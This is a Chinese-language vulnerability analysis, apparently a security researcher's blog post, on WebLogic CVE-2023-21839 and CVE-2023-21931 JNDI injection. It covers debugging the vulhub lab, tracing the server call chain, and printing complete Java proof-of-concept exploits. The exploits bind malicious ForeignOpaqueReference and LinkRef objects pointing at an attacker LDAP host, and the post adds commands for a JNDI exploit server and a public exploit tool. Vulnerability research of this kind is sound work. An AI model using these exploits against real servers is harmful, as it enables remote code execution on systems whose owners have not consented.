# 环境搭建

CVE-2023-21839，CVE-2023-21931的补丁是一样的，成因也差不多

直接用vulhub的环境https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839

将源码从docker中拖出来放进idea就可以审计了
相关命令：

```
进入镜像环境
docker exec -it 【进程序号】 /bin/bash
复制镜像文件到主机上
docker cp 【进程序号】:/【目录】 /Users/DawnT0wn/java/Weblogic
```

对docker-compose.yml文件进行编辑添加调试端口



用root身份进入docker



yum安装vim编辑器

编辑weblogic环境目录下/user_projects/domains/base_domain/bin/setDomainEnv.sh文件



在JAVA_DEBUG="" export JAVA_DEBUG和if [ “${debugFlag}” = “true” ] ; then之间添加调试代码，端口需要与docker-compose.yml中添加的对应

```
debugFlag="true"
DEBUG_PORT=5556
export debugFlag
```



再将Lib包和weblogic环境依赖打压缩包复制出来导入idea项目库中即可，命令`docker cp 37fd2a32c8da:/u01/oracle/oracle_common /home/admin/weblogic`



是这里的oracle_common和wlserver






然后重启容器即可，在IDEA中添加到library

weblogic10 及以后的版本，不能直接使用server/lib 目录下的 weblogic.jar 了，需要手动执行一个命令生成手动生成 wlfullclient.jar（不导入这个的话有些类跟不进去）



最后在idea添加运行配置-添加远程jvm调试填选对应的地址端口即可



最后debug连接成功

# CVE-2023-21839

## 漏洞成因

由于Weblogic t3/iiop协议支持使用JNDI来远程绑定对象（远程绑定对象bind到服务端）并lookup查询

代码如下

```
// 创建远程对象
MyRemoteObject remoteObject = new MyRemoteObject();
// 获取上下文
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");
Context ctx = new InitialContext(env);
// 绑定对象到JNDI
ctx.rebind("myRemoteObject", remoteObject);
// 远程查找对象
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

如果想通过iiop协议绑定则把代码中的t3换成iiop即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的MyRemoteObject需要实现Serializable接口。

## 漏洞分析

当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在`retVal = context.lookup(this.remoteJNDIName)`实现，故可以通过rmi/ldap远程协议进行远程命令执行



这些和之前不一样，不是通过序列化和反序列化控制内容，而是可以远程绑定对象到服务端，调用lookup查看，然而有些Reference存在可控的lookup最终造成jndi注入



OpaqueReference是一个接口，客户端对该对象进行JNDI查找的时候，服务器实际上是通过getReferent方法来获取该对象的实际引用



而ForeignOpaqueReference实现了这个接口，并且在getReferent方法中存在可控的lookup





可以看到，其实jndiEnviroment的值是否为空都会实例化InitialContext，只是一个有jndiEnviroment，一个没有

因为我们是远程绑定的ForeignOpaqueReference对象，那么里面的值也可以通过反射修改

调用栈如下



## 漏洞复现

```
import weblogic.deployment.jms.ForeignOpaqueReference;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://47.93.248.221:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
//        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
//        jndiEnvironment.setAccessible(true);
//        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://47.93.248.221:1389/zc57ls";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```






# CVE-2023-21931

## 漏洞成因

和CVE-2023-21839一样，都是因为可以远程绑定对象，然后在之后的过程中找到可用的lookup对象

即是通过`LinkRef#getLinkName`方法来获取ldap查询串

## 漏洞分析

在上一个漏洞中，我们在WLNamingManager的getObjectInstance方法中看到如果boundObject实现了OpaqueReference接口会滴哦啊用getReferent获取对象，如果实现的是LinkRef接口就会调用getLinkName方法获取linkName



随后调用lookup查询

我们从调用栈来分析一下



通过`weblogic.rmi.internal.BasicServerRef#handleRequest`对数据进行接受处理



调用SecurityManager.runAs方法，里面实例化了一个PrivilegedExceptionAction，随后在doAs方法中调用这个action的run方法

invoker是ClusterableServerRef类



这里的invoke又是BasicServerRef，通过 BasicServerRef 类中的 invoke() 方法解析传入数据



对消息进行一些if判断后，调用RootNamingNode_WLSkel的invoke方法继续处理



此时传入的是16，进入对应的分支



通过反序列化获取传入的数据，调用RootNamingNode的lookup继续处理



在超类的lookup方法继续处理





最后到了BasicNamingNode的lookup方法，此时调用getRest方法返回的为空，进入到if调用resolveObject方法，传入自定义信息（prefix，reference class，env）



首先是判断判断obj是否实现了NamingNode接口，如果没有就调用WLNamingManager的getObjectInstance进行处理



这里只要boundObject实现的是LinkRef即可实例化InitialContext调用起lookup方法







可以看到，其实在实例化LinkRef的时候就能控制linkName

## 漏洞复现

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.LinkRef;
import java.util.Hashtable;

public class CVE_2023_21931 {
    public static void main(String[] agrs) throws Exception {
        String url = "t3://47.93.248.221:7001";
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";
        Hashtable ht = new Hashtable();
        ht.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        ht.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(ht);
        LinkRef LR = new LinkRef("ldap://47.93.248.221:1389/qi0d1d");
        c.rebind("poc", LR);
        c.lookup("poc");
    }

}

```





## 交互过程

我们从本地脚本开始分析



实例化InitialContext的时候，传入了environment



获取到环境配置，调用`getDefaultInitCtx`方法，调用`NamingManager.getInitialContext`获取上下文器



跟进



获取到了factory



返回调用`WLInitialContextFactory.getInitialContext`方法，获取到了上下文实现类WLContextImpl



接下来调用lookup方法





调用node的lookup方法，这里的node即是stub服务器，即向远程服务器通信，进行一次RPC调用



接下来就是weblogic对t3协议传过来数据的处理流程 

# 利用工具

也可以用4ra1n编写的工具

https://github.com/4ra1n/CVE-2023-21839

本`PoC`是针对`CVE-2023-21839`编写的，实际上同时覆盖了`CVE-2023-21931`和`CVE-2023-21979`。因为这三个漏洞触发机制相同，且补丁方式相同，所以只要存在一个，那么其他两个也存在

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A "47.93.248.221" -C "touch /tmp/2023Test"

./CVE-2023-21839 -ip 47.93.248.221 -port 7001 -ldap ldap://47.93.248.221:1389/jctjhz
```


参考链接：

https://xz.aliyun.com/t/12297#toc-0

https://www.freebuf.com/vuls/361370.html

https://www.freebuf.com/articles/web/364069.html

https://xz.aliyun.com/t/12452#toc-4

https://okaytc.github.io/posts/5a99c827.html#0x05%E3%80%81%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90

https://github.com/4ra1n/CVE-2023-21839

https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839
